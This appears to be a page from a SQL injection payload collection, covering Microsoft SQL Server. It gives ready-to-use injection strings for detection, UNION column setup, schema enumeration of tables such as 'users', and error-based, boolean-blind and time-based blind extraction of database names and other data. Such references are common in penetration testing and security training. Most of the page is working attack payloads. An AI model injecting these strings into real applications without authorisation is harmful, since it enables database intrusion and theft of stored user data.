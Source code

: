 See `SQL Injections/wordlists/README.md` for context-to-list mapping and per-DBMS payloads.

---

## Microsoft SQL Server (MSSQL)

Discovery
- Comments: `-- `, `/* ... */`
- Concatenation: `'a'+'b'`
- Time primitive: `WAITFOR DELAY '0:0:5'`
- Version: `@@version`

Initial detection
- Error: `'` → SQL error page/log
- Boolean:
  - `AND 1=1-- ` vs `AND 1=2-- `
- Time-based:
  - `;IF(1=1) WAITFOR DELAY '0:0:5'-- `

Version / DB / User
- Version (UNION or inline):
```sql
UNION SELECT @@version-- 
```
- Current DB and user:
```sql
UNION SELECT DB_NAME(), SYSTEM_USER-- 
```

UNION setup
- Column count: increment `ORDER BY n` until error; last OK is n.
- Printable columns: replace `NULL` with a string to see which render.

Schema enumeration
- List tables/columns:
```sql
UNION SELECT table_schema, table_name FROM information_schema.tables-- 
UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users'-- 
```

Error-based extraction
- Leverage conversion errors:
```sql
AND 1=CONVERT(int,(SELECT TOP 1 name FROM sys.databases))-- 
```

Boolean blind
```sql
AND (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT TOP 1 name FROM sys.databases),1,1))>77) THEN 1 ELSE 0 END)=1-- 
```

Time-based blind
```sql
;IF(ASCII(SUBSTRING(DB_NAME(),1,1))>77) WAITFOR DELAY '0:0:5'-- 
```
